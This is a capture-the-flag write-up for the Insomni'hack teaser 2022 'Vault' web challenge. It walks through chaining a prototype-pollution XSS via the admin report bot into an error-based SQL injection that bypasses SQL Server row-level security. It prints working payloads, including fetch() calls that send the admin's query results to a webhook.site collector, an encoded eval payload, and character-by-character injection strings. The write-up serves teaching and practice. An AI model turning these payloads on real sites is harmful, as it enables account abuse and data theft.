 ```yaml
---
title: Insomni'hack teaser 2022 – Vault
date: '2022-01-31'
draft: false
authors: ['thebish0p']
tags: ["Insomni'hack teaser 2022", 'Web', 'Prototype Pollution', 'SQLi', 'Error Based Injection', 'JavaScript', 'JSON']
summary: 'Prototype pollution which allows to run arbitrary js in admin context and retrieve the flag through the sql injection with an error based injection.'
---
```


## Vault

> by clZ
>
> A competing group has created a so-called secure Vault where people can store their secrets. We have serious doubts on their capacity to actually provide such a service. Could you show everyone that their solution is not as secure as they think?
>
> The Vault is available [here](http://vault.insomnihack.ch:5000/).
>
> They are so confident in their solution that they also released their [source code](https://static.insomnihack.ch/media/Vault_191c4ba6dc394e5713771ac4808a02330fd9583a-9516bb402ba3ca3401458c8d8e08d112cde7a9f7e9a5a9b349dc9ac403e1b48f_RR5HK9s.tgz).

We start by checking the web page and notice that there is a login, register and report link section. So my first thought was trying to find an XSS and report a link in order to grab an admin’s cookie for example but we had an issue we can’t register:

![Registration Error](/static/images/insomnihack-teaser-2022/registration_error.png)

We continue by checking the source code and manage to find a JavaScript Protocol Pollution bug that can lead to an XSS `http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script#page=secrets` as shown below:

![Alert XSS](/static/images/insomnihack-teaser-2022/xss_alert_1.png)

Time to try to get a callback from the admin through the report link function so we just add `fetch("https://webhook.site/388bc797-594f-4945-a407-5137e40ced43")` to our payload, report it and get a callback:

![First Callback](/static/images/insomnihack-teaser-2022/first_callback.png)

We noticed at this point that cookies on the site are `httpOnly` so we need something else:

```python
@app.route('/api/report', methods=['POST'])
def contact():
    url = request.form["url"]
    pattern = re.compile("^https?:\/\/")
    if len(url) > 0 and pattern.match(url):
        try:
            from selenium import webdriver
            from selenium.webdriver.common.keys import Keys
            from selenium.webdriver.chrome.options import Options
            import time
            session_serializer = SecureCookieSessionInterface().get_signing_serializer(app)
            adminsession = dict()
            adminsession["admin"] = 1
            adminsession["username"] = "admin"
            adminsession["password"] = os.environ.get("ADMIN_PWD")
            session_cookie = session_serializer.dumps(dict(adminsession))
            chrome_options = Options()
            chrome_options.headless = True
            chrome_options.add_argument('--no-sandbox')
            driver = webdriver.Chrome("/app/chromedriver", options=chrome_options)
            driver.set_page_load_timeout(30)
            driver.get("http://" + os.environ.get("VHOST") + "/")
            time.sleep(1)
            driver.add_cookie({"name": "session", "value":session_cookie,"httpOnly": True})
            driver.get(url)
            time.sleep(30)
            driver.close()
            return {'status':'OK'}
        except:
            return {'status':'KO','msg':'Error checking page'}
    return {'status':'KO','msg':'Invalid URL'}
```

We recheck the `app.py` file and notice that the `username` parameter in `/api/stats` is prone to SQL injection.

```python
@app.route('/api/stats')
def stats():
    if not "admin" in session or session["admin"] != 1:
        return {'status':'KO', 'msg': 'You are not admin'}
    else:
        try:
            conn_str = ("Driver={ODBC Driver 17 for SQL Server};"
                "Server=db,1433;"
                "Database=Vault;"
                "UID=" + session["username"] + ";"
                "PWD=" + session["password"])
            conn = pyodbc.connect(conn_str)
            cursor = conn.cursor()
            sql = "SELECT inserttime FROM dbo.Stats WHERE username = '" + request.args.get("username") + "'"
            cursor.execute(sql)
            res=cursor.fetchall()
            ret=[]
            for row in res:
                ret.append({'inserttime':row[0]})
            cursor.close()
            conn.close()
            return {'status':'OK','results':ret}
        except:
            return {'status':'NOK'}

```

We continue by adding an injection to our payload `fetch("/api/stats?username=admin' union select 123 --").then(x => x.text()).then(x=>{location='https://webhook.site/32903bb4-075a-4196-933d-2d558ae4a216/?secrets='+btoa(x)})` but we base64 it and then eval the decoded value in order for it to work: 

```
http://vault.insomnihack.ch:5000/?__proto__[url][]=data:,eval(atob(%27ZmV0Y2goIi9hcGkvc3RhdHM/dXNlcm5hbWU9YWRtaW4nIHVuaW9uIHNlbGVjdCAxMjMgLS0iKS50aGVuKHggPT4geC50ZXh0KCkpLnRoZW4oeD0%2be2xvY2F0aW9uPSdodHRwczovL3dlYmhvb2suc2l0ZS8zMjkwM2JiNC0wNzVhLTQxOTYtOTMzZC0yZDU1OGFlNGEyMTYvP3NlY3JldHM9JytidG9hKHgpfSk7%27))//&__proto__[dataType]=script#page=secrets
```

…and get a callback as shown below:

![successful_injection](/static/images/insomnihack-teaser-2022/successful_injection.png)

After several failed attempts of selecting the flag from the database we notice that `install.sql` has a `SecurityPredicate` which prevents access from different users to specific rows:

```sql
DROP SECURITY POLICY IF EXISTS dbo.SecurityPolicy;
GO
DROP FUNCTION IF EXISTS dbo.SecurityPredicate;
GO
CREATE FUNCTION dbo.SecurityPredicate
(
  @UserName nvarchar(32)
)
RETURNS TABLE
WITH SCHEMABINDING
AS RETURN
(
  SELECT ok = 1 WHERE USER_NAME() = @UserName
);
GO

CREATE SECURITY POLICY dbo.SecurityPolicy
ADD FILTER PREDICATE dbo.SecurityPredicate(UserName)
ON dbo.Vault WITH (STATE = ON, SCHEMABINDING = ON);
GO
```

After some researching, I find this article named [Beware of Side-Channel Attacks in Row-Level Security in SQL Server 2016](https://www.mssqltips.com/sqlservertip/4379/beware-of-sidechannel-attacks-in-rowlevel-security-in-sql-server-2016/) explaining how to bypass this Predicate by causing an error like a zero division error so we tried to cause an error while trying to bruteforce each character of the flag.

Unfortunately, the CTF ended at this time and didn’t manage to finish the challenge on time but the injection required is shown below:

```sql
select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,1,1))-GUESS)=1
```

Finally what needs to be done is just looping through the characters of secret_value and sending for each one this payload:

```js
fetch('/api/stats?username=${encodeURIComponent(' union select 1 from dbo.Vault where username='secret' and secret_name='flag' and 1/(ascii(substring(secret_value,${pos},1))-GUESS)=1;-- -')});`
```
